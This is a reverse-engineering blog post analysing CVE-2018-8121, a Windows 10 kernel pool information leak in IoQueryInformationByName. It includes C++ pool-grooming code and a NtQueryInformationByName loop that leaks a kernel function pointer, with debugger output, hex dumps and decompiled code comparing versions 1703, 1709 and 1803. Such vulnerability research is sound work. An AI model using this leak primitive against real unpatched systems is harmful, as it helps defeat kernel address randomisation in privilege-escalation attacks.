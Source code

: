 ```yaml
---
layout: post
title: "NT infoleak CVE-2018-8121"
author: "Nox"
description: "Infoleak of NT base"
keywords: "infoleak, nt, exploiting, cve-2018-8121"
date: 2021-03-24 23:00:00 -0300
categories: reversing
lang: en
lang-ref: nt-infoleak-cve-2018-8121
---
```


The infoleak was mentionated at 44con's 2018 talk ["Subverting Direct X KernelFor Gaining Remote System"](https://github.com/RanchoIce/44Con2018). The infoleak consists on get uninitialized memory in a userland buffer. When We reserve memory in the Nonpaged pool using `nt!NtAllocateReserveObject` function and free that pool chunk to alloc a new pool chunk, a nt function pointer remains in it. By calling `nt!IoQueryInformationByName` the whole content of that pool chunk could be read in a userland buffer.

<!--more-->

```
0: kd> !pool ffffe781aa2c5150
unable to get nt!ExpHeapBackedPoolEnabledState
Pool page ffffe781aa2c5150 region is Nonpaged pool
...
*FFFFE781AA2C50F0 size: c0 previous size: 10 (Allocated) *IoCo
```

When it has been freed:

```
0: kd> !pool ffffe781aa2c5150
Pool page ffffe781aa2c5150 region is Nonpaged pool
[...]
*FFFFE781AA2C50F0 size: c0 previous size: 10 (Free ) *IoCo
0: kd> dps ffffe781aa2c5150
[...]
ffffe781`aa2c51e0 fffff800`440dfa90 nt!PspIoMiniPacketCallbackRoutine
```

How I can do that? Alloc a pool chunk and free some, leave free chunks with `0xC0` size.

```c++
for (int i = 0; i < 0x7000; i++) {
  NtAllocateReserveObject(&phReserve1[i], NULL, IoCo);
}
for (int i = 0; i < 0x700; i++) {
  CloseHandle(phReserve1[i * 0x10]);
}
for (int i = 0; i < 0x7000; i++) {
  NtAllocateReserveObject(&phReserve2[i], NULL, IoCo);
}
for (int i = 0; i < 0x700; i++) {
  CloseHandle(phReserve2[i * 0x10]);
}
```

After, try to alloc in the same free pool chunk.

```c++
while(True) {
    char arg2[0x200] = { 0 };
    char arg3[0x200] = { 0 };
    OBJECT_ATTRIBUTES objattr = { 0 };

    NtQueryInformationByName(&objattr, (PIO_STATUS_BLOCK)arg2, arg3, 0xB0, (FILE_INFORMATION_CLASS)0x44); /* FileStatInformation */

    ULONG_PTR leak = *(ULONG_PTR *)(arg3 + 0x90)
    printf("pointer leak 0x%llx\n", leak);

    for (int i = 0; i < 0x30; i++) {
        NtAllocateReserveObject(&phReserve3[i], NULL, IoCo);
    }

    for (int i = 0; i < 0x30; i++) {
        CloseHandle(phReserve3[i]);
    }

    if( /* heuristic */){
        return leak;
    }
}
```

If it was succeed, the pool chunk was allocated in the same chunk. And we can got the `nt!PspIoMiniPacketCallbackRoutine` virtual kernel address in our user-land buffer.

```
1: kd> g
Breakpoint 1 hit
nt!IoQueryInformationByName+0x1b9:
fffff800`442b37d9 e87250b4ff call nt!IopVerifierExAllocatePoolWithQuota (fffff800`43df8850)
1: kd> p;r rax
rax=ffffe781aa2c5150
1: kd> dps ffffe781aa2c5150
[...]
ffffe781`aa2c51e0 fffff800`440dfa90 nt!PspIoMiniPacketCallbackRoutine
```

```
00000072C236FBE0 00 00 00 00 00 00 00 00 00 00 00 00 00 F8 FF FF .............øÿÿ
00000072C236FBF0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
00000072C236FC00 03 00 09 0E 49 6F 20 20 69 E8 49 5C 8F E6 26 2A ....Io ièI\.æ&*
00000072C236FC10 48 00 00 00 00 00 00 00 1C 00 00 00 E8 03 00 00 H...........è...
00000072C236FC20 00 00 00 00 3C 00 00 00 00 00 00 00 00 00 00 00 ....<...........
00000072C236FC30 50 F7 F9 8C 6A 00 00 00 00 00 00 00 00 00 00 00 P÷ù.j...........
00000072C236FC40 3C 00 00 00 00 00 00 00 00 00 00 00 50 F7 F9 8C <...........P÷ù.
00000072C236FC50 6A 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 j...............
00000072C236FC60 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
00000072C236FC70 90 FA 0D 44 00 F8 FF FF A0 51 2C AA 81 E7 FF FF .ú.D.øÿÿ Q,ª.çÿÿ // <----
00000072C236FC80 00 00 00 00 00 00 00 00 78 00 65 00 00 00 00 00 ........x.e.....
```

## How is possible the infoleak?

The `nt!IopVerifierExAllocatePoolWithQuota_3` function alloc a pool chunk with a size controlled by us, calling `nt!ObOpenObjectByNameEx` fails,
and the pool chunk is not sanitized. Finally the pool chunk content is copied to our user-land buffer, getting an nt address infoleak.

```c++
// nt!IoQueryInformationByName (win10 1709)
[...]

if ( (unsigned __int64)user_buffer <= 0x7FFFFFFEFFFFi64 )
    P = (PVOID)IopVerifierExAllocatePoolWithQuota_3(v13, _size);
else
    P = user_buffer;

v17 = __readgsqword(0x188u);
++*(_QWORD *)(v17 + 1464);
__incgsdword(0x2EE4u);

v18 = ObOpenObjectByNameEx((__int64)IoFileObjectType, v10, (__int64)Src, v11, 0i64);
IopCleanupExtraCreateParameters(&Dst);

if ( v22 == 0xBEAA0251 )
    v18 = v21;

v19 = P;
if ( user_buffer != P )
{
    memmove(user_buffer, P, (unsigned int)Size);
    ExFreePoolWithTag(v19, 0);
}
```

## Does it work in all Windows 10 versions?

No. If we see the description in the [Windows advisory page](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8121), the infoleak exists in Windows 10 1703, 1709 and 1803, but it doesn’t work in all mentioned versions.

### Windows 10 1703

In this version something curious happens, in the function’s prologue. If the [call is from user-mode](https://doxygen.reactos.org/d7/deb/xdk_2ketypes_8h.html#a9b26934030fc4241b92fe90168d238ef) only return an error code.

```c++
__int64 __fastcall IoQueryInformationByName(...
{
//[...]
PreviousMode = KeGetPreviousMode();
if ( PreviousMode ) /* KernelMode = 0, UserMode = 1*/
    return 0xC00000BBi64;
```

### Windows 10 1709
It works perfectly! The reason was mentioned above.

### Windows 10 1803

When `nt!ObOpenObjectByNameEx` function fails, in 1709 nothing happens, but in 1803 the behaviour is different, that function return an error code in `int v19`, for example `0xC000000D`. So, verification `(v19 >= 0)` is not fulfilled, and the pool chunk is never copied to our user-land buffer.

```
      v19 = ObOpenObjectByNameEx((__int64)IoFileObjectType, arg1, 40i64, v11, 0i64);
      IopCleanupExtraCreateParameters(&Dst);
      if ( v24 == 0xBEAA0251 )
        v19 = v23;
      v20 = P;
      if ( user_buffer != P )
      {
        if ( v19 >= 0 )
          memmove(user_buffer, P, (unsigned int)Size);
        ExFreePoolWithTag(v20, 0);
      }
```

I tried to comply with the condition settting "correct" arguments.

```c++
RtlInitUnicodeString(&wzObjectName, L"\\DosDevices\\C:\\WINDOWS");
InitializeObjectAttributes(&objattr, &wzObjectName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, 0, NULL);
NtQueryInformationByName(&objattr, (PIO_STATUS_BLOCK)arg2, arg3, 0xB0-2, (FILE_INFORMATION_CLASS)0x44); // FileStatInformation
```

And the call to `nt!ObOpenObjectByNameEx` fails too!, but `v24` is  being setted with `0xBEAA0251` const, then the condition is fulfilled (`v24 == 0xBEAA0251`) and `v19` is setted to `0`. How does this happen? I don’t know. I tried setting a hardware breakpoint on read/write but it never stopped when that value was written :(. If you know, please tell me. So, the pool chunk contents is copy to our user-land buffer! but it wasn’t satisfactory.

```
0000002C654FF840  14 06 00 00 00 00 01 00 16 29 0C B1 D8 D1 D3 01  .........).±ØÑÓ.  
0000002C654FF850  1E 1A ED 56 7A 11 D5 01 46 4F 3A 14 C8 BC D4 01  ..íVz.Õ.FO:.È¼Ô.  
0000002C654FF860  46 4F 3A 14 C8 BC D4 01 00 70 00 00 00 00 00 00  FO:.È¼Ô..p......  
0000002C654FF870  00 70 00 00 00 00 00 00 10 00 00 00 00 00 00 00  .p..............  
0000002C654FF880  01 00 00 00 A9 00 12 00 00 00 00 00 00 00 00 00  ....©...........  
```

> Written by **Nox**